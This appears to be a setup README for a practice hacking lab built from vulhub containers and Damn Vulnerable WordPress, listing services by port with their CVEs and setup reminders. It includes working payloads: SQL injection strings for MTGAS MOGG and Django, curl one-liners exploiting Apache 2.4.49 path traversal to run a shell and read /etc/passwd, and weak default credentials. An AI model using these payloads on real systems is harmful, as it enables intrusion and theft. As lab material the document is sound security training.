 # phpmyadmin 4.8.1 & MTGASS MOGG Web Simulator

1. **tcp 8511**
2. Hidden dir (MTGASS MOGG in dir **events/**)
3. password attack (phpmyadmin): [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613) - [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)
4. SQLi (MTGAS MOGG): [EDB-ID 45717 MTGAS MOGG Web Simulator Script - SQL Injection](https://www.exploit-db.com/exploits/45717)

```
Check the config file. See error below:

Failed to read configuration file!

This usually means there is a syntax error in it, please check any errors shown below.
```
```
MTGAS MOGG Web Simulator Script - SQL Injection

# Exploit Title: MOGG web simulator Script - SQL Injection
# Date: 2018-10-29
# Exploit Author: Meisam Monsef - meisamrce@gmail.com - @meisamrce -
@dorsateam
# Vendor Homepage: https://github.com/spider312/mtgas
# Version: All Version


Exploit :
http://server/play.php?id=99999'+[SQL Command]+#
http://server/play.php?id=99999%27+and+extractvalue(1,concat(0x3a,user(),0x3a))%23
```

2. Hidden dir, Apache 2.4.49 vuln, **tcp 8512**: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773). [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
3. Authenticated SQLi, **tcp 8513**: [CVE-2019-14234 django SQLi](https://github.com/vulhub/vulhub/tree/master/django/CVE-2019-14234). 
```
Need to switch this over, update docker-compose and the repository.
Vulnerable page: http://104.198.70.155:8513/admin/vuln/collection/?detail__a
PoC: http://104.198.70.155:8513/admin/vuln/collection/?detail__a%27b=123
```

5. WP, **tcp 8514** : [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). Multiple CVEs.
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

6. Weak password, phpmyadmin **tcp 8515** 
